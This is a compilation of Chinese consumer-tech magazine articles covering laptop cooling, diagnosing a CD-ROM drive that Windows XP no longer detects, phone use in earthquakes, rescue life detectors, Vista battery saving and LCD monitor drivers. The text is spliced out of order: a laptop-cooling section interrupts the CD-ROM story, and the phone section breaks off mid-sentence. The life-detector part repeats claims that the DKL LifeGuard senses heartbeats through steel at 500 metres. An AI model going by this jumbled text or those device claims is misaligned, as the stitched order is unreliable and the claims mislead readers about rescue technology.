笔记本散热器的使用非常简单，使用时主要应注意安装要到位，不能与笔记本底部留有间隙，同时要注意笔记本USB接口要有标准的5V 500mA的电源供应，风扇才能正常运转，有些笔记本不同USB口的供电情况是不一样的。如果供电不足，建议大家使用外接电源，以保证正常的散热能力。

## 侦破“光驱丢失案”

由于家里的电脑配置已经太过时，笔者最近新购进一台组装机，其详细配置如下，主板：昂达A78GT/128M版（集成显卡），CPU：AMD AM2 Athlon 64 X2 4600+（65nm），内存：金士顿DDR2 800 1GB，硬盘：希捷酷鱼7200.10/ST3250820A（IDE接口），显示器：明基FP92W 19英寸液晶显示器。抱着不浪费的心理，就把老机上的美达16X DVD（IDE接口）光驱继续沿用。

- ◆文/TMG wlj

目前大部分主板都只有一个IDE接口，昂达A78GT也不例外，所以笔者就把硬盘和光驱全部接在一条IDE数据线上使用。当组机完毕，开心地使用几天后，问题就来了，在我想用光驱安装一些游戏时，竟然在“我的电脑”中找不到光驱的盘符。接着我打开“设备管理器”，在里面原本属于光驱的那项变成了一个黄色的小感叹号，也就是说系统无法识别光驱。这是怎么回事呢？

### 1.丢失案分析

当“光驱丢失案”出现后，我的第一感觉就是这老光驱坏了。但结果却没有如我所想，我把这个美达16X DVD光驱接到朋友的机器上是可以被系统正确识别并使用的，这证明光驱没有坏，只是我的系统或者我的新机器哪个地方出现了问题。看来想侦破这件“光驱丢失案”可不是一件容易的事，抱着“先软后硬”的解决问题步骤，我“一环接一环”地开始着手侦破这件“光驱丢失案”。

### 2.解决“软的问题”——软件问题导致的“光驱丢失”

其实我们平时很多的“电脑故障”都是因为我们在“软”的方面设置不当而造成的，这些不当包括很多，主要集中在以下几方面：驱动问题、病毒问题、注册表问题以及软件的使用不当。那么下面就让我们按照这个顺序来尝试找出这桩“光驱丢失案”的罪魁祸首吧。

#### (1)驱动问题

驱动是设备与系统连接的通道，等同于一个翻译官，如果驱动出了问题，那么系统自然就无法识别光驱了。由于光驱的驱动并不是通过第三方途径装入系统，而是由系统自带的驱动来安装驱动的，所以我们无法通过平时的方法重新安装光驱驱动。我们可以通过以下这个方法来重装光驱驱动。首先重启系统，在系统重启到系统自检时按F8进入系统模式选择，并选择安全模式进入系统。在进入系统后，对着“我的电脑”图标单击鼠标右键，接着单击“属性”菜单，在“硬件”选项卡中单击“设备管理器”进入，然后单击展开“IDE ATA/ATAPI控制器”，对着你的光驱的那项单击右键，在菜单中再单击卸载。当光驱卸载完成后，我们再重启电脑正常进入系统，这样系统就可以重新发现光驱并安装驱动了。当我让系统重新安装光驱后发现问题依然没有解决，系统仍然没有识别出光驱。看来驱动问题并不是这件“光驱丢失案”的罪魁祸首。

#### (2)病毒问题引起的“光驱丢失案”

目前病毒的传播日益猖獗，难道是我刚安装几天的新系统感染上病毒了吗？这十分有可能，就算我的电脑并没有被外界的病毒所感染，也很有可能我安装的WINDOWS XP系统本身带有病毒，因为我的系统是使用盗版碟安装的。越想越可疑，那就检查一下是不是病毒引起的“光驱丢失案”吧。我首先将瑞星病毒库更新到最新，然后重启系统进入不带网络连接的安全模式，用瑞星进行一次彻底的全盘杀毒。杀毒的结果显示系统里有3个木马变种，清理干净后正常重启系统。

## 四、多管齐下让笔记本更“冰凉”

### 1.其他辅助散热措施

除了使用散热器外，我们还有其他方法能让笔记本电脑工作时的发热变低。一种专用的小桌子是喜欢在床上用本的朋友的好帮手。使用这种专用小桌子不仅可以解决散热问题，也让床上用本的舒适性得到提高。另外要解决笔记本电脑的散热问题，一种在超市出售的水垫也是很好的选择，价格只需20元左右，使用时垫在笔记本下面，就能很好地吸热，夏季还可以事先将其放入冰箱降温。目前还流行一种笔记本脚垫，可以粘在笔记本的底部将笔记本支起一定角度，不仅使用户在平坦桌子上打字更加舒适，同时还能改进笔记本的散热。

### 2.用软件帮助本本“消火”

如果不计较性能的损失，还可使用CPU降温软件来降低笔记本电脑工作时的温度。常见的CPU降温软件有CpuIdle、Rain、Waterfall等，大家可选择使用。另外现在大多数笔记本电脑在BIOS中都对CPU的节能技术给予了支持，但这些技术默认情况是在使用电池时才开启，我们可以设法通过调整BIOS设置、使用专门软件等方法来让其在使用交流电源的情况下也打开这些节能技术，从而降低CPU工作时温度，让笔记本电脑整机温度下降。此外现在大多数笔记本硬盘都“自适应电池增效技术”，我们可以加载一个特定的软件比如：Power Booster，它会在后台每隔5秒钟监测一次是否有读写硬盘的动作，然后根据你的设定来使硬盘进入省电模式，甚至让主轴停止转动，从而减少硬盘的发热。对于内置光驱的机型，我们可以使用一些专门的软件来设法降低光驱的读写速度，从而减少光驱的发热。通过采取上面的措施，不仅能降低笔记本电脑工作时的发热，同时也减少了风扇的运行时间，降低噪音，延长相关机件的使用寿命，还能有效延长电池使用时间，可谓一举数得，感兴趣的朋友不妨一试。

## (3)注册表问题

注册表是系统一个非常重要的组件，它储存了很多重要信息，这些信息控制着系统多方面的功能。那么，光驱无法被识别是不是注册表某些键值被设置错误呢？下面就让我们来检查一番。

首先让我们打开注册表编辑器，依次单击“开始”→“运行”→键入 `regedit`，回车确定即可。依次展开 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，将其中的 `NoDrivers` 键值改为 `00 00 00 00`，正常情况下该项是不存在的，完成后保存。接着，再依次展开 `HKEY_LOCAL_MACHINE\SYSTEM\Currentcontrolset\Control\Class\{4D36E965-E325-11CE-BFC1-08002BE10318}`，如果其目录下有 `UpperFilters` 以及 `LowerFilters` 两个键值，将其删除并保存退出，最后重启系统。

一般来说，注册表导致的光驱丢失都是由以上3个键值引起了。不过很遗憾的是，在对其进行修复操作后，我的光驱仍然无法识别。这样看来，注册表也不是导致这一桩丢失案的罪魁祸首。

## (4)虚拟光驱的使用导致光驱丢失

我们平时在玩一些光盘版的游戏时，为避免频繁读取光盘，我们常常会使用一些虚拟光驱软件，例如DAEMON Tools就是我们常常使用的一个虚拟光驱软件。在我们不想使用虚拟光驱的时候，我们会选择将其卸载，不过有的时候当我们把虚拟光驱卸载后，其虚拟光驱盘符会消失，而我们的物理光驱盘符也会跟着消失，变成系统无法识别的硬件。那么造成我电脑光驱丢失的原因是不是这个呢？

鉴于我电脑在安装系统时DAEMON Tools作为系统常用软件被安入，随后因为我不常使用的原因便将其卸载了，是不是当我在卸载时没卸载干净，从而导致系统不识别光驱呢？让我们一起来看看。首先依次单击“开始”→“设置”→“控制面板”，在“控制面板”对“添加或删除程序”双击鼠标左键，打开“添加或删除程序”窗口，在里面的程序列表里寻找是否有DAEMON Tools的程序，如果有，单击该程序右下方的“更改/删除”按钮，按照提示将其删除。然后在“设备管理器”里将光驱卸载，最后将系统重启，让系统重新识别光驱。

如果是虚拟光驱引起的“光驱丢失案”，那么经过上一步骤后光驱应该能被正确识别，可是事与愿违，它依然不是“光驱丢失案”的罪魁祸首。

到这里为止，“软”的问题都排除完了，常见的“光驱丢失案”无非是以上4个软件问题导致的。看来，我的这桩“光驱丢失案”的罪魁祸首应该是出在硬件上面了。

## 3.光驱硬件问题导致的“光驱丢失案”

在一开始光驱无法被系统识别的时候，我就已经把光驱接到别的电脑上进行测试了，其结果是可以被正确识别。那么这样就可以排除光驱本身的硬件问题，问题很有可能出在光驱的周边，譬如光驱数据线、IDE接口问题、跳线问题等。

- **(1)光驱数据线接反或数据线损坏**

有时候一个很简单的问题，却被我们忽略了而绕了一大圈，光驱的数据线的接反便是这样。这时我们需要打开机箱；检查光驱的数据线是否按照红线对红口的顺序连接好主板，如果没有，我们应该把它纠正。

数据线是否损坏的问题就更好确认了，我们更换一条数据线尝试连接，光驱数据线在各大IT卖场都会有卖。

- **(2)IDE接口问题**

是否主板的IDE接口出现了什么问题呢？这个可能性在一开始就已经被我排除了，因为我相信新主板应该不会出现什么硬件方面的问题。现在我决定去确认一下。

由于这款昂达A78GT主板本身只有一个IDE接口，所以我决定单独连接光驱与主板，不连接硬盘，看是否能被识别。结果很遗憾，还是不能，但当我单独连接硬盘和主板时，硬盘却可以被正确地识别。这说明主板IDE接口是正常可用的。

- **(3)跳线设置问题**

一个IDE接口最多可以连接两个IDE设备，但是要跳线设置正确才可以正常使用。在IDE设备的跳线设置中，一般用“Master”表示“主盘”，“Slave”表示“从盘”。硬盘一般默认是“主盘”，而光驱一般默认是“从盘”。在硬盘与光驱共用一个IDE接口时，要注意看主板、硬盘、光驱说明书来确认跳线位置，否则会出现光驱或硬盘无法被识别的问题。

因为我光驱说明书早已遗失，我就按照硬盘跳线在“MASTER”上、光驱跳线在“SLAVE”上的原则，重新连接好硬盘和光驱。让人沮丧的是跳线正确也无法让光驱被系统正确识别。

## 4.真相大白

在经过上述一系列会导致光驱丢失的问题一一排查后，仍然无法找出“光驱丢失案”的罪魁祸首。这让我非常无奈，最后不得已通过咨询一位“电脑达人”，才得以“真相大白”，让我找回丢失的光驱。

具体操作方法其实很简单，这个问题只是主板BIOS设置不当而造成的。我们这样操作，首先，在系统重启开机自检时，按住Delete键不放，进入BIOS设置，移动光标回车进入Award BIOS菜单，将其目录下的IDE设置中的“IDE DMA transfer access”选项从默认的“Enabled（打开）”设为“Disabled（关闭）”。这样设置完成保存重启后，操作系统终于能正确识别光驱了。

说明：DMA的英文拼写是“Direct Memory Access”，汉语的意思就是直接内存访问，是一种不经过CPU而直接从内存里存取数据的数据交换模式。

后话：看来，要破一桩“光驱丢失案”可不是那么容易的事情啊！我尝试了那么多的方法，简直可以说是“软硬兼施”，可结果都无法侦破“光驱丢失案”，只是因为我忽略了硬盘与光驱共用一个IDE接口时BIOS的正确设置。在解决一个问题时，往往需要我们细心再细心地寻找导致问题的原因，这样才能对症下药，解决问题。

虽然上述一系列“软硬兼施”的方法并没能解决我这桩“光驱丢失案”，但是它们也未尝不是解决很多“光驱丢失案”的有效方法，希望读者可以学到这些方法，如果下次“光驱丢失案”出现在你身上，你也不致于手足无措了！

## 灾难中用好电子设备

## 让手机在地震中发挥意想不到的作用

手机是现代城市中几乎每一个成年人都随身携带的通讯工具。大家一定不会忘记在这次汶川大地震中，一位母亲临终前用手机短信记录下遗言的感人场景，其实记录遗言只是在灾难中我们最不愿意利用的手机功能。现代手机的功能越来越丰富，如果真的不幸遭遇地震等灾难，利用好手机等电子设备的一些特殊功能，说不定就是你幸运逃生的关键。

### 1.蓝牙、WIFI: 无线求救信号发生器

在地震等灾难发生后，如果你不幸被埋在废墟中，可能首先会想到的就是拿出手机拨打求救电话，但不幸的是，当灾难发生后，城市的移动通讯系统很可能会立即遭到毁灭性破坏，这时手机的通话、短信、上网等依附于移动网络的通讯功能将马上变成“聋子的耳朵”。那么这时手机是否就毫无用途了呢？其实不然，如果你的手机具备蓝牙、WIFI等无线连接能力，你可以立即将其开启，并设定为“可查找状态”。目前蓝牙2.0的有效连接范围可达20米左右，而WIFI信号则更是在100米左右的范围内都能被搜索到。废墟外的搜救人员只需利用另外一台具备蓝牙或WIFI功能的普通手机，就能确定废墟下是否有被埋者，通过一定的技术手段甚至还能与被埋者进行信息交流。还有些手机，在按下一个专用“求生键”后，会持续发出较强的特定无线求救信号。如果随身携带一台这样的手机，在被埋废墟后，获救的可能性将大大增加。另外顺便说一下，在地震等灾难发生后，如果能立即使用应急通讯车等装备，恢复大面积废墟附近的手机通讯，相信很可能可以挽救不少被埋者的生命。

### 2.手机对讲: 紧急情况下的应急通讯

在日本这个时刻遭受地震威胁的国家，在使用手机的无线连接能力进行救灾上，也有一些专门的举措。比如其很多手机具备直接的对讲功能。大家知道有些GSM手机（如诺基亚的大多数中高端机型）具有“PPT”双机对讲功能，但这一功能需通过网络实现。而真正的“对讲手机”可以在没有网络的情况下，直接像普通对讲机一样通话，既节省了话费，又为紧急情况下的通讯提供了一种方法。比如UTS 718-U+和英华达OK818这两款小灵通就具备这样的功能。下面以UTS 718-U+为例谈谈具体方法：要实现双机对讲功能，需进入“社群模式”，先设定主机，按“F”、“6”“1”——按“*”——利用数字键输入社群号码——输入社群密码——按“#”，再设定副机，按“F”、“6”“1”——按“#”——利用数字键输入社群号码——输入副机编号——按“#”——输入社群密码——按“#”。接着我们要将待机模式修改为社群/公众模式。然后，按“CLR”——利用数字键，输入对方的社群编号，即可拨通对方的U718，对方接听后就能直接通话了。如果你的手机具备这样的对讲功能，不妨在灾难发生后加以应用吧。



### 3.手电筒、声响: 传统求救信号发生器

如果你的手机没有蓝牙、WIFI等功能，我们也可以尽量利用手机的声光信号来发出传统的求救信

### 4.GPS定位：无论你在哪里，我都能找到你

现在不少手机内置了GPS功能。GPS是具备全方位实时三维导航与定位能力的卫星导航与定位系统。信号覆盖全球，全天候工作，实时向地面发送高精度时间、位置和速度信息，无论你身在何处都能得知所在的位置及海拔高度。如果在地震、洪水等灾难来临时，你正好在荒郊野外旅游探险被困，此时就算是有手机信号，救援人员要找到你也是比较困难的，因为在荒郊野外不会有街道名，也不会有标志性建筑物，如果是不熟悉的地方，你很难描述清楚自己的具体位置。这时如果你使用的手机带有GPS功能，这些难题就迎刃而解了。通过手机GPS功能，你可以准确获取自己所处位置的经纬度，然后通过短消息等手段，设法告知救援人员，要找到你就易如反掌了。安装合适软件后，我们还可以方便地将带GPS功能的智能手机变成专业GPS接收器，可以不依赖地图实现导航，利用定位和指向功能到达目的地，这对于在野外迷路后自救也是非常有用的。另外现在有些手机还有GPS照片定位功能，会将你拍照地点的准确位置记录在照片信息中，方便你今后轻松查询自己遇险的具体地点。



另外卫星电话是灾难中最有效的通讯工具。在地震等灾难发生后，传统的通讯方式往往会立即全面中断。卫星移动电话因其特有的通讯方式，可以不受地域限制，在任何地点进行通话和数据传输，无疑是灾难中最有效的通讯工具。目前在我国运营提供服务的卫星移动网络有四个：海事卫星电话、铱星卫星电话、全球星卫星电话和亚星卫星电话。卫星电话的相关话题我们曾在以前的合订本中有过详细介绍，这里就不多谈了。

### 5.收音机：方便获取最新救灾信息

在地震等大灾发生后，在公众通讯网络中断和大面积断电的情况下，已经淡出公众视野的无线广播系统其实是很不错的信息发布途径。相信这次在灾后避震过程中，在室外帐篷或汽车中生活的朋友，对此深有体会。在那样的环境中，收音机就是大家最可靠、方便、及时、权威的信息获取工具。其实现在越来越多的手机都内置了调频收音机功能，如果你的手机带有收音功能，一定要将其充分利用起来哦。地震后，对于不幸被埋在废墟中的朋友，如果能利用手机的收音功能收听到党和政府的声音，将会获得非常大的精神动力，坚定获救的信心。在地震多发的日本，手机的收音功能很受重视，甚至被设计成在灾难发生后，可以被特定信号自动激活。另外还有能接收卫星广播、短波接收功能的手机，这类手机能在灾后信息获取中发挥更重要的作用。

### 6.太阳能充电：让手机不再受断电的困扰

在地震等灾难发生后，大面积长时间断电往往是难以避免的“次生灾害”。在这种情况下，那怕基站已经恢复工作，手机功能再多，没有电也只能是摆设。现在有个别手机具备太阳能充电功能，此时就可以发挥大用途了。如果你的手机具备这样的功能，一定要充分加以利用哦。当然，具备太阳能充电功能的手机毕竟是极少数，我们还可以选择其他手机应急充电设备，包括可以用普通干电池为手机充电的充电器和手握人力充电器。另外还有单独的太阳能通用充电器可以选择。其实这类产品当初主要是为喜欢在野外暴走的“驴友”们设计的，没想到在地震灾难发生后，也发挥了大用途。





### 生命探测仪：灾难中的阿拉丁神灯

地震等天灾给人类带来的损失触目惊心，虽然我们目前还不能控制天灾，但是通过使用高新技术却可以帮助人们挽回更多的宝贵生命。在这次汶川大地震中，新闻中经常提到的生命探测仪，就是灾难救援中的科技利器，有不少幸存者都因为生命探测仪而获救。生命探测仪无疑是地震灾难中最重要的电子设备。那么生命探测仪都有哪些种类？其工作原理是什么呢？这里就为大家简要介绍一下不同种类的生命探测仪。

### 1. 呼吸运动探测仪

在分秒必争的营救工作中，生命侦测仪可以帮助搜救人员迅速准确安全地发现仍然存活的遇险者，从而为营救工作争取到宝贵的时间。我们知道有生命的个体一定会有呼吸运动存在，因此有一类生命侦测仪实际上就是呼吸运动探测器，通过测试被探测者的呼吸运动或者肢体移动来工作。雷达信号发送器连续发射电磁信号，对一定空间进行扫描，接收器不断接收反射信号并对返回信号进行算法处理。如果被探测者保持静止，返回信号是相同的。如果目标在动，则信号有差异。通过对不同时间段接收的信号进行比较等算法处理，就可以判断目标是否在动，由于呼吸的频率较低，一般每秒不到一次，这样就可以把呼吸运动和其他较高频率的运动区分开来，从而探知出生命的存在。这是现在世界上最先进的生命探测系统之一，采用的雷达超宽频技术(UWB)是美国航空航天局（NASA）火星探测器所采用的技术，能够非常敏锐地捕捉到非常微弱的运动。

### 2. 心跳电场探测仪

只要是生命，身体之中就会有着许多特别的生命信息，这些生命信息会通过各种能量方式表现在身体外部，比如声波、电场、光波等。DKL LifeGuardTM生命探测器结合目前世界上最尖端的生化、介电质、超低频传导及DNA技术研发而成,已申请多项技术专利。LifeGuardTM生命探测器提供抢救人员在进入搜救现场时，先行确认其内部是否有人存活，减低抢救人员搜救时的危险程度，并在第一时间侦测出任何遮挡物背后的生存者。其基本原理是以被动接收方式侦测远端微弱心跳介电场和心跳声场的方向，并只侦测存活的人类，而不受其它动物的干扰。能穿越钢板、水泥、复合材料、树丛等各种障碍物，使侦测距离在开放空间可达500米，水面上达1公里以上，并适用于各种恶劣的天气条件。如配合便携式电脑及专用的人工智能软件，还可产生侦测的图像和声音信息，进一步提高操作人员的判别能力，同时也可减少新手训练的时间。

### 3. 光学生命探测仪

光学生命探测仪又被称为“蛇眼”。我们知道到瓦砾深处救援的第一步是搜索。幸存者埋在瓦砾堆中，用手去一点点地挖开瓦砾显然太慢，用重型机械去移动又有可能伤着人。各种搜索仪器可以帮上忙。“蛇眼”就是一种搜索仪器，它的学名叫“光学生命探测仪”，是利用光反射进行生命探测的。仪器的主体非常柔韧，像通下水道用的蛇皮管，能在瓦砾堆中自由扭动。仪器前面有细小的探头，可深入极微小的缝隙探测，类似摄像仪器，将信息传送回来，救援队员利用观察器就可以把瓦砾深处的情况看得清清楚楚。这类生命探测仪有些类似医学上使用的内窥镜。另外还有一种热红外生命探测仪，具有夜视功能，它的原理是通过感知温度差异来判断不同的目标，因此在黑暗中也可照常工作。

### 4. 声波振动探测仪

声波振动生命探测仪靠的是识别被困者发出的声音。人类只有两个耳朵，而且听力有限。这种仪器却有3—6个“耳朵”，它的“耳朵”叫做“拾振器”，也叫振动传感器，它能根据各个“耳朵”听到声音先后的微小差异来判断幸存者的具体位置。说话的声音对它来说最容易识别，因为设计者充分研究了人的发声频率。如果幸存者已经不能说话，只要用手指轻轻敲击，发出微小的声响，甚至心跳的微弱声音也能够被它听到，关键是外界噪声的影响不能太大，因此在夜深人静时使用声波振动生命探测仪效果更好。

### 5. 特殊仪器：搜救犬

犬对气味的辨别能力比人高出百万倍，听力是人的18倍，不仅视野广阔，还有在光线微弱条件下视物的能力，是国际上普遍认为搜救效果最好的“专家”。我国以前一直没有救援犬。2001年4月27日中国国家地震灾害紧急救援队，又名“中国国际救援队”成立，救援队员由中国人民解放军工程部队官兵、地震专家、医疗救护人员组成；随后成立了搜索犬分队。搜索犬分队有13只搜索犬，由德国牧羊犬、加拿大的拉布拉多犬和比利时牧羊犬组成，这些特殊的搜救犬8个月大就来到中国，成为中国第一批搜救犬。在这次汶川大地震中，搜救犬发挥了很突出的作用。除了上面提到的各种电子设备，在地震救援过程中还有其他一些工具也非常有用，比如当天色暗下来，但抢救不能停止时，这时月球灯的作用非常抢眼，月球灯由高达数千瓦的电力支持，两个月球灯就能照亮一个足球场面积大小的区域。另外还有航空遥感飞机，能够通过高空作业，对当地灾情进行连续实时拍摄，为救援提供足够清晰的实时画面。而双向千斤顶、充气起重垫、救援液压钳等救灾机械装备，更是“四两拨千斤”，往往在挽救生命的过程中起到决定性作用。

## Vista本本省电进行时

虽然有这样那样的问题，Vista系统在人们日常的生活里越走越远，很多品牌的本本还是提早就把这款漂亮的操作系统装上了。打开手提电脑，你一眼就能看见Vista精彩的界面。不过，当本本用得正High的时候，电源报警一声急过一声，四周也没有能充电的地方，就算故事情节正看到关键处，也只得关掉电脑。咦？这才两个小时怎么就没电了？想让传说中的Vista耗电大王胃口变小，先从笔记本电脑电池的基本维护说起。

◆文/TMG wyj

## 一、本本电池的基本维护

买个新本本回家时，里面的电池已经有一定的电量，以供购买者试机时使用。有个流传已久的说法是要完全激活新电池，前三次都要先完全放电，再充电12个小时。不过现在的本本多数用的是锂电池，电池电芯出厂时和装成笔记本电池时都经过了激活，再进行三次激活就相当于增加电池的损耗了。如今笔记本的电源管理和充电管理电路已算是完善，控制电路会在电池达到饱和的时候自动切至断路，并非是充电时间越久，电池被激活得越多。

使用镍氢电池时，为了消除记忆效应，每次得把电量用尽再充电。锂电池虽然没有记忆效应，但仍有惰性效应。如果频繁使用锂电池，应该在电量降到10%到15%的时候再充电。要是放电到1%之下，锂电池会受到较大损伤，这样完全的深度放电两个月进行一次就够了。

电池长期不用，该怎样保存呢？有两种说法，放光电保存和充满电保存。放光电保存时间太长电芯可能失去活性，要是控制电路保护自锁，这电池可能就再也用不成了。电池充满电后长期保存可能有安全隐患。比较理想的方法是放电到40%左右，在20摄氏度上下保存。

如果正使用电源适配器供电，要不要取下电池呢？因为我们周围的环境不是绝对绝缘的，虽然电池没有直接给电脑供电，难免会因为接触了其他非绝缘体而产生放电现象，再接上电源就会给电池充电。这样频繁的充放电对电池是一种损耗。如果你的电脑使用环境供电稳定，可以把电池取下来，单独用电源适配器。不过，现在的本本不是少一点电就要充上的，很多电脑在电池电量降到95%或是90%时才会为其充电，自然放电减少5%到10%的电量需要两周到一个月的时间。所以，为保证数据不在突然断电的情况下丢失、硬盘不因突然断电而受损害，装上电池用电源适配器又何妨？每个月来次深度充放电为电池舒筋活骨，这是个不错的方法。

了解了本本小心脏——电池的基本维护，下面来看看今天的主角Windows Vista系统下的“手提”们怎样才能更省电。

## 二、Vista本本要省电

Vista漂亮的Aero界面和新增的各种系统功能让很多用户爱不释手，不过想让本本在只有电池的情况下工作更长时间，一些小设置是必不可少的。Windows Vista的帮助和支持里就为我们准备了一些简单的技巧：选择节能的电源计划、降低显示器亮度、缩短Windows关闭显示器之前的时间长度和关闭或移除未使用的设备。看它上面写得很简单很轻松，实际操作时又该怎样实现呢？请看下面。

### 1. 选择电源计划

当把鼠标挪至Vista本本右下角的电池图标上时，当前的电池剩余电量百分比和电源计划可以显示出来（如图1）。Vista提供了三种可用的电源计划：

- 1）“已平衡”——电脑需要性能时能提供完全的性能，处于不活动状态时可以节省电能；
- 2）“节能程序”——通过降低系统性能来节省电能；
- 3）“高性能”——使系统性能和响应最大化。系统默认的设置是“已平衡”，这种电源计划虽然不能同时保证性能与节电，但却兼顾了性能与节电两方面的需要。“高性能”设置下系统的响应最快，表现出的性能最高，无疑最能耗费电量。对于正在以电池作为单一电源的本本用户来说，选择“节能程序”，可以最大限度地节省电池电量，不过这时候系统的性能自然会有所降低。



不同笔记本的制造商可能会提供其他不同的电源计划，想看看本本还有别的什么电源计划，就可以单击电源图标，然后单击“更多电源选项”，在弹出的窗口里就可以看到所有的电源计划，选择哪一种，全看你的需要了（见图2）。

如果这些电源计划还无法达到你的要求，怎么办？那就DIY吧！打开控制面板，在“移动PC”一栏中单击“更改电源设置”，会弹出一个窗口，在其左侧的任务栏里单击“创建电源规划”，就会弹出一个窗口框，选择“节能程序”，为计划拟定一个名称“超级省电”，单击“下一步”按钮，就会进入对“超级省电”电源计划的具体设置。你可以根据自己的需要来选择关闭显示器的时间、计算机进入睡眠状态的时间，也可以调整显示器的亮度。这些调整设置完成后，单击“创建”按钮，你亲手打造的电源计划就会出现在列表里了。



## 2. 关闭Aero

Vista的Aero主题除了带来绚烂的视觉效果，占用内存可是不遗余力，耗费电量也不小。在只有电池做电源的时候，为了省电，完全可以关闭Aero。 在桌面上单击右键，单击最下方的个性化按键，在随之展开的个性化菜单里找到“Windows颜色和外观”并单击，可以看到一个漂亮界面。不同电脑的设置不同，在有的本本里，进入“Windows颜色和外观”界面后，有选择或取消“启用透明效果”的复选框，如果你仍想用Aero，又盼着能省点电，就可以取消透明效果，这样，Aero还是华丽地存在着，显卡也减了不少负担，电池电量呢，当然能用得更久些。不过，如果你原来选的电源计划是“节能程序”，电池是唯一电源时，系统会自动关闭透明效果的。 要是觉得这点电省得还不够，想彻底关掉Aero，简单！在“Windows颜色和外观”界面最下方可以看到“打开传统风格的外观属性获得更多的颜色选项”按钮，单击它，打开了外观设置窗口，“颜色选择”一栏不选“Windows Vista标准”，而选“Windows Vista基本”或是其他的外观，确认后Aero效果就会被关闭掉。

## 3. 移除未使用的设备

很多设备只要经由USB接口与电脑连接上就要耗费电源，像是闪存盘、移动硬盘、USB接口的鼠标等等。所以呢，为了给电池省电，可以把USB鼠标拿掉，用触控板或指点杆来代替鼠标完成基本操作，使用Tablet笔也可以。至于U盘、MP3，不用的时候最好马上拔出来。 在Vista系统下，打开控制面板，点选左下角的“查看硬件与设备”，就会打开电脑的设备管理器，找到USB Root Hub，点击打开属性对话框，你会发现其中有“电源管理”这一栏，用户可以勾选“允许计算机关闭此设备以节约电源”，当你记不起拔掉长时间不用的U盘时，电脑会主动帮你关闭它来节省电池电量。 对可移动存储设备的管理，Vista的默认设置是“为快速删除而优化”，如果你的移动硬盘或闪存并未被使用，直接拔出即可，不必像Windows XP系统下那样先得“安全删除硬件”。 另外，开无线连接也要费电，不管是WiFi、蓝牙，还是别的什么。要是有网线，或者根本不用上网，那就直接关掉无线网络，为电池节省一点宝贵的电量吧。

## 4. Vista省电小工具

Vista有“吸电大法”，就必有克制它的“节电先锋”。软件制造者们研究了一些小工具，用来保证Vista系统在单一电池的支持下能撑得更久。例如这款Vista Battery Saver软件，安装后会显示在电脑的系统托盘区，又不占多大资源。打开程序的设置窗口，可以看见默认的设置是在笔记本使用电池时禁止使用Aero界面和Sidebar活动边栏。如果你想设置成电池电量低于某一值的时候再关闭上述两项功能，也完全可以。这样，Vista Battery Saver最高能节省电池约70%的电量，它的确是个不错的电源小助手。不过，一旦禁用了Aero界面和Sidebar边栏，想重新使用它们，只能等接上交流电源后，从控制面板中手动开启。

## 5. 显示器亮度

把本本中各硬件的耗电量从高到低排个序的话，显示器绝对能摘得桂冠。现在的本本多是LCD屏，屏幕的光源来自屏幕后方的灯管，调整显示器的亮度也就是调整灯管的亮度。在刚刚对“高性能”、“已平衡”、“节能程序”三种电源计划的使用中就可以发现，屏幕一个比一个暗。所以，在只有电池作电源的情况下，可以在视觉允许的范围内尽量调低显示屏亮度，但也不可太低，否则会影响眼睛的舒适度。 每种品牌的电脑在键盘上都会有按键用以调节显示屏亮度，可以根据实际情况手动调节。当然也可以自己设置一个电源计划，规定显示器自动关闭的时间。在Vista系统下可以用Win键+X键调出来移动中心，在移动中心里也可以调节显示器亮度。

## 6. 睡眠？休眠？还是关机？

短时间内离开座位，把本本放在那里，为了省电是选择睡眠还是休眠呢？先得看看两者的不同：睡眠时系统将数据保存到内存，再用电脑的时候唤醒机器费时短，唤醒过程中耗电少，但本本在睡眠中会慢慢消耗电池的电量。数据被完全保存到硬盘后就可以休眠，休眠时本本不耗电，但本本“入睡”和“清醒”要消耗不少电量。如果离开计算机在一个小时之内，让计算机睡眠较合适；离开的时间稍长，那就选择休眠。当然，离开的时间很长的话，直接关机吧。 在Vista系统下，用户可以自定义系统的睡眠或者休眠。打开电源计划界面，选择左侧任务栏的“选择关闭显示器的时间”，你会在弹出的界面里发现“更改高级电源设置”一项，单击打开它，可以看到“电源选项”对话框。在“电源选项”对话框里，用户可以对睡眠、休眠等按照自己的要求进行时间设置。甚至是硬盘、USB设备、无线适配器设置都可以规定出一个自动停用的时间。对于经常忘记本本正以饥饿之躯工作的人来说，提前做这样的设置，非常有帮助。

## 7. 激活离开模式

很多人在睡觉时想让Vista自个儿下载电视剧，醒来时总是发现Vista已经变成脱机状态，整晚上的电费花了不少，时间也浪费了。这时候，你可以选择激活Vista的离开模式。 打开左下角的“开始”，在“运行”对话框中输入regedit，就能打开注册表编辑器。找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Power]注册表项，在它的下面新建一个32位的DWORD项，命名为AwayModeEnable，把值设为1。重启后这个离开模式就被激活，点击“开始”菜单中的“睡眠”，就能进入离开模式。

除了上面所说的，可以让本本省电还有几小条，像是取消屏保、保证通风散热、避免在过高或过低的温度下使用电池工作，这些不单单是Vista系统适用。有本本的人们都可以来学习一下，力争让本本以更少的电力发挥更大的作用。

# 硬件与数码 SOLUTIONS

## 健康靓丽生活

## 不容忽视的液晶显示器驱动

文/江北书生

现在液晶显示器越来越便宜了，很多人都考虑或已经购买并用上了液晶显示器。不过，由于一般的液晶显示器只要将其调至最佳分辨率就可以正常显示，因此很多人就不再安装（如图1，未安装任何显示驱动）。事实上，现在的显示器的功能是越来越多、越来越棒，如三星的N大魔技功能等，要享受到这些花了银子买来的功能，就必须安装显示器的驱动程序。所以，请大家在重新安装系统的时候，务必不要忽视了显示器驱动程序的安装（有时可能需要从安装光盘上安装厂商自己开发的程序）。



右击桌面空白处，选择“属性”，单击“设置”标签，再单击下方“高级”按钮，在打开窗口中单击“监视器”标签，然后单击“属性”按钮。

单击“驱动程序”标签中的“更新驱动程序”按钮（如图2），进入“硬件更新向导”开始安装驱动程序。在打开窗口中单击“否，暂时不”选项（如图3），再在打开窗口中单击“从列表或指定位置安装（高级）”一项，以便手动选择并安装显示器自带的驱动程序。接着在打开窗口中选择“不要搜索。我要自己选择要安装的驱动程序”项。取消“显示兼容硬件”项，再单击下方的“从磁盘安装”按钮，再选择驱动程序所在的文件夹，返回到窗口中选择自己正确的显示器类型，完成显示器驱动程序的安装。





接着返回到前面窗口，我们就可以看到一些特定的功能，如单击“颜色管理”项还可以导入显示器的颜色配置文件，来更好地管理我们的桌面颜色（如图4）。



